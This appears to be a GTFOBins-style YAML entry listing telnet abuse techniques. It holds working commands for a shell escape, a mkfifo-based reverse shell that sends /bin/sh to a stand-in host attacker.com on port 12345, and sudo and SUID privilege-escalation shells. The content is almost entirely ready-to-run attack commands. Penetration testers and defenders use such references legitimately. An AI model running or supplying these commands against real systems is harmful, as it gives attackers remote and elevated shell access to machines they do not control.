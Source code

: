 functions:
  shell:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        TF=$(mktemp -u)
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF
  sudo:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
  limited-suid:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
---
